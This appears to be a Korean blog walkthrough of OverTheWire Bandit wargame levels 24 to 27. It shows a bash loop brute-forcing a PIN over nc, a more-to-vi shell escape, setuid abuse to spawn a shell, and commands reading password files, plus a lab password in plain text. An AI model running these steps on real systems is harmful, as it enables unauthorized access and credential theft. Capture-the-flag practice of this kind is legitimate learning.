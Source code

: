 <h1>Bandit-Wargame 24 -> 25 </h1>
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

*무작위 대입 공격(브루트 포스 공격)*
- 가능한 모든 조합을 다 넣어 보는 것
- 비밀번호가 복잡하면 복잡할수록 경우의 수가 기아급수적으로 늘어난다. -> 우리가 비밀번호를 복잡하게 쓰는 이유


1. 어떤 프로그램이 실행중인데 30002 포트를 사용한다. 24의 비밀번호와 4자리의 숫자 핀코드를 보내주면 25의 비밀번호를 전달 해준다.
2. 들어가는 방법 -> `nc localhost 30002`
- 이미 24의 비밀번호는 알고 있지만, 핀코드 4자리 숫자를 모르기 때문에 그것을 풀어야하는 문제이다.
3. 0000 ~ 9999 까지 브루트 포스 공격을 할 것이다. (반복문을 사용하여)
- `mkdir /tmp/bandit24_jeff; cd /tmp/bandit24_jeff`
```
test.sh

#! /bin/bash

for i in {1..9}
do
    echo $i
done
```
 - chmod로 파일 권한을 꼭 열어줘야 실행이 된다! `chmod u+x test.sh`
```
이번엔 00 부터 99까지

#! /bin/bash

for i in {00..99}
do
    echo $i
done
```
```
본격적인으로 넣을 스크립트
#! /bin/bash

for i in {0000..9999}
do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done
```
- 이제는 이것의 결과를 화면에 출력하는것이 아닌 nc 로 넘겨줘야한다.
- 실행시 `./test.sh | nc localhost 30002` -> 하지만 너무 wrong 우롱이 많아서 필요한 것만 끌어내기 위해서 grep -v 옵션을 사용하고 개인적으로 대소문자 구별을 하지 않기 위해 -i 옵션 까지 추가로 넣어 주엇다.
- ./test.sh | nc localhost 30002 | grep -v -i "wrong"



<h1>Bandit-Wargame 25 -> 26 </h1>
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

1. bandit26의 sshkey가 있어서 `ssh -i` 를 이용하여 접속 하니깐 되는 것 같았는데 안됬다 
- ![image](/assets/bandit(2)/6.png)
2. 이것도 bashrc를 건든것이 아닐까 생각할 수 있지만 문제를 보면 bash 쉘이 아니라고 한다
- `cat /etc/passwd | grep -i bandit26` -> 끝에 /usr/bin/showtext 라고 되어있다.
- 무엇을 실행하는지 파일을 읽어봐야겠다.
```
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
``` 
- 이러한 내용이 들어있다. -> 무언가 파일을 실행하고 그냥 exit 되기 때문에 그냥 바로 종료 되었다.

3. more 명령어의 특징
- cat과 똑같이 글씨를 나타내지만 more는 화면 사이즈에 맞게 출력할 수 있는 양 만큼만 출력하고 스페이스바로 다음으로 넘어갈 수 있게 나타난다.
- 그리고 more를 사용하면 특이하게 안쪽에서 알파벳 v를 누르면 vi를 실행 할 수 있는데, 또 vi에서는 특정 명령어를 실행 할 수가 있다.
- 그래서 우리가 할 것 `more -> vi -> shell` 으로 전략을 구성할 것이다.

4. ssh 접속을 할 때 터미널 화면을 충분히 작게 하고 다시 접속하면 more가 나올 것이다.
- 그리고 vi 에서 쉘을 실행하는 방법 -> `:set shell=/bin/bash` -> `:sh`
- 26의 비밀번호 까지 알아야 하니깐 -> `cat /etc/bandit_pass/bandit26`

5. 하지만 다음에 bandit26으로 로그인 할때 다시 화면을 작게 하고 more -> vi -> shell 순으로 다시 들어가면 된다.


<h1>Bandit-Wargame 26 -> 27 </h1>
Good job getting a shell! Now hurry and grab the password for bandit27!

1. setuid 가 설정된 파일이 또 하나 있다.
2. 이전에는 파일을 실행 시키고 뒤에 명령어로 비밀번호를 따왔지만 이번에는 다른 방법으로 -> `./bandit27-do /bin/sh` -> `cat /etc/bandit_pass/bandit27` -> 문제가 살짝 수정된거같다.
3. 그래서 그냥 `./bandit27-do cat /etc/bandit_pass/bandit27`를 통해서 비밀번호 추출
